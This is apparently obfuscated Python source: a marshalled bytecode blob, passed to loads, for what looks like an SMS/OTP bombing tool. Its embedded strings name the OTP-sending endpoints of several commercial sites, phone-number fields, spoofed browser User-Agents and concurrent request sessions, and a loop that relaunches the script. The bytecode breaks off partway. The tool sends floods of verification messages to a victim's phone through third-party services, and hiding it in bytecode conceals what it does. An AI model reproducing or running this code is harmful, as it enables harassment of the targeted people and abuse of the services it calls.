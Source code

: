 bytecode = loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00J\x00\x00\x00@\x00\x00\x00s\xf2\x04\x00\x00d\x00Z\x00d\x01Z\x01d\x02Z\x02d\x03Z\x03d\x04Z\x04d\x05Z\x05d\x06Z\x06d\x07Z\x07d\x08Z\x08d\tZ\td\nZ\nd\x0bZ\x0bd\x0cZ\x0cd\rZ\rd\x0eZ\x0ed\x0fZ\x0fd\x10Z\x10d\x11Z\x11d\x12Z\x12d\x13Z\x13d\x14Z\x14d\x15Z\x15d\x16Z\x16d\x17Z\x17d\x18Z\x18d\x19Z\x19d\x1aZ\x1ad\x1bZ\x1bd\x1cZ\x1cd\x1dZ\x1dd\x1eZ\x1ed\x1fZ\x1fd Z
d!Z!d"Z"d#Z#d$Z$d%Z%d&Z&d\'Z\'d(Z(d)Z)d*Z*d+Z+d,Z,d-Z-d.Z.d/Z/d0Z0d1Z1d2Z2d3Z3d4Z4d5Z5d6Z6d7Z7d8Z8d9Z9d:Z:d;Z;d<Z<d=Z=d>Z>d?Z?d@Z@dAZAdBZBdCdDlCZCdCdDlDZDdCdDlEZEdCdElFmGZG\x01\x00dCdFlHmIZI\x01\x00dCdDlJZJdCdDlKZKeI\x83\x00ZLeC\xa0M\xa1\x00ZNdGdH\x84\x00ZOdIdJ\x84\x00ZPdCaQeO\x83\x00\x01\x00dKZRdLdM\x84\x00ZSdNd@\x84\x00aTdOdP\x84\x00aQdQdR\x84\x00ZUeBe\x1ai\x01ZVdSdT\x84\x00ZWdUdV\x84\x00ZXdWdX\x84\x00ZYdYdZ\x84\x00ZZd[d\\\x84\x00Z[d]d^\x84\x00Z\\d_d`\x84\x00Z]dadb\x84\x00Z^dcdd\x84\x00Z_dedf\x84\x00Z`dgdh\x84\x00Zadidj\x84\x00Zbdkdl\x84\x00Zcdmdn\x84\x00Zddodp\x84\x00Zedqdr\x84\x00Zfdsdt\x84\x00Zgdudv\x84\x00Zhdwdx\x84\x00Zidydz\x84\x00Zjd{d|\x84\x00Zkd}d~\x84\x00Zld\x7fd\x80\x84\x00Zmd\x81d\x82\x84\x00Znd\x83d\x84\x84\x00Zod\x85d\x86\x84\x00Zpd\x87d\x88\x84\x00Zqd\x89d\x8a\x84\x00Zrd\x8bd\x8c\x84\x00Zsd\x8dd\x8e\x84\x00Ztd\x8fd\x90\x84\x00Zud\x91d\x92\x84\x00Zvd\x93d\x94\x84\x00Zwd\x95d\x96\x84\x00Zxd\x97d\x98\x84\x00Zyd\x99d\x9a\x84\x00Zzd\x9bd\x9c\x84\x00Z{d\x9dd\x9e\x84\x00Z|d\x9fd\xa0\x84\x00Z}d\xa1d\xa2\x84\x00Z~d\xa3d\xa4\x84\x00Z\x7fd\xa5d\xa6\x84\x00Z\x80d\xa7d\xa8\x84\x00Z\x81d\xa9d\xaa\x84\x00Z\x82d\xabd\xac\x84\x00Z\x83d\xadd\xae\x84\x00Z\x84d\xafd\xb0\x84\x00Z\x85d\xb1d\xb2\x84\x00Z\x86d\xb3d\xb4\x84\x00Z\x87d\xb5d\xb6\x84\x00Z\x88d\xb7d\xb8\x84\x00Z\x89d\xb9d\xba\x84\x00Z\x8ad\xbbd\xbc\x84\x00Z\x8bd\xbdd\xbe\x84\x00Z\x8cd\xbfd\xc0\x84\x00Z\x8dd\xc1d\xc2\x84\x00Z\x8ed\xc3d\xc4\x84\x00Z\x8fd\xc5d\xc6\x84\x00Z\x90d\xc7d\xc8\x84\x00Z\x91d\xc9d\xca\x84\x00Z\x92d\xcbd\xcc\x84\x00Z\x93d\xcdd\xce\x84\x00Z\x94d\xcfd\xd0\x84\x00Z\x95d\xd1d\xd2\x84\x00Z\x96d\xd3d\xd4\x84\x00Z\x97d\xd5d\xd6\x84\x00Z\x98d\xd7d\xd8\x84\x00Z\x99d\xd9d\xda\x84\x00Z\x9ad\xdbd\xdc\x84\x00Z\x9bd\xddd\xde\x84\x00Z\x9cd\xdfd\xe0\x84\x00Z\x9dd\xe1d\xe2\x84\x00Z\x9ed\xe3d\xe4\x84\x00Z\x9fd\xe5d\xe6\x84\x00Z\xa0d\xe7d\xe8\x84\x00Z\xa1d\xe9d\xea\x84\x00Z\xa2d\xebd\xec\x84\x00Z\xa3d\xedd\xee\x84\x00Z\xa4d\xefd\xf0\x84\x00Z\xa5d\xf1d\xc4\x84\x00Z\x8fd\xf2d\xf3\x84\x00Z\xa6d\xf4d\xf5\x84\x00Z\xa7d\xf6a\xa8dCa\xa9eXeYeZe[e]e^e_e`eaebecedeeefegeheiejekelemeneoepeqereseteuevewexeyeze{e|e}e~e\x7fe\x80e\x81e\x82e\x84e\x85e\x87e\x88e\x89e\x8ae\x8be\x8ce\x8de\x8ee\x8fe\x90e\x91e\x92e\x94e\x95e\x96e\x97e\x99e\x9ae\x9be\x9ce\x9de\x9fe\xa1e\xa2e\xa3e\xa4e\xa0e\xa5e\xa6e\xa7gJZ\xaaeE\xa0E\xa1\x00Z\xabd\xf7d\xf8\x84\x00Z\xacd\xf9d\xfa\x84\x00Z\xade\xad\x83\x00\x01\x00dDS\x00)\xfbz\x13request_otp[_token]z\x18request_otp[phoneNumber]zyMozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36zrMozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36z\x0cx-csrf-tokenZ\x0bserviceNameZ\tapplicantZ\tbuyerNameZ\x18buyer_signup_otp_messageZ\nuserParamsZ\x0botpTemplateZ\torgIdfierz@https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.684z\x18https://nocnoc.com/loginz\x1fapplication/json; charset=utf-8Z\x08phone_nozsMozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36Z\x0ccountry_codez%https://jdbaa.com/api/otp-not-captchaz\x87text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9z\nkeep-alivez\x0fAccept-Languagez\x0fAccept-EncodingZ\tclient_idz\x16http://b226.com/x/codez(https://www.msport1688.com/auth/send_otpz\x83Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38\xda\x07WindowsZ\x0fmobile_phone_noz=https://api-customer.lotuss.com/clubcard-bff/v1/customers/otpz\x10x-requested-withz\x10application/json\xda\x04lang\xda\rauthorization\xda\x06localeZ\x06mobile\xda\x07Referer\xda\nConnectionZ\x0eagent_registerZ\tbrands_id\xda\x04true\xda\x08password\xda\x04Hostz!application/json, text/plain, */*\xda\x03telz\x1eapplication/json;charset=UTF-8\xda\x06Cookiez\x10X-Requested-With\xda\x08username\xda\x02thz\x03*/*Z\x0cphone_number\xda\x04type\xda\x06AcceptzyMozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36Z\x0eXMLHttpRequestz0application/x-www-form-urlencoded; charset=UTF-8z!application/x-www-form-urlencodedz\nUser-Agent\xda\x06acceptzxMozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36z\x0cContent-Type\xda\x07referer\xda\x06cookie\xda\x05phonez\x0ccontent-typez\nuser-agent\xe9\x00\x00\x00\x00N)\x01\xda\x06search)\x01\xda\x0eFuturesSessionc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s"\x00\x00\x00t\x00t\x01k\x02r\x14t\x02\xa0\x03d\x01\xa1\x01\x01\x00n\nt\x02\xa0\x03d\x02\xa1\x01\x01\x00d\x00S\x00)\x03N\xda\x03cls\xda\x05clear\xa9\x04\xda\x07so_name\xda\x02_n\xda\x02os\xda\x06system\xa9\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00\xfa\x08
<string>r\x18\x00\x00\x00J\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x14\x01r\x18\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s"\x00\x00\x00t\x00t\x01k\x02r\x14t\x02\xa0\x03d\x01\xa1\x01\x01\x00n\nt\x02\xa0\x03d\x02\xa1\x01\x01\x00d\x00S\x00)\x03Nz\tpy oop.pyz\rpython oop.pyr\x19\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x07looprunM\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x14\x01r \x00\x00\x00ub\x06\x00\x00\n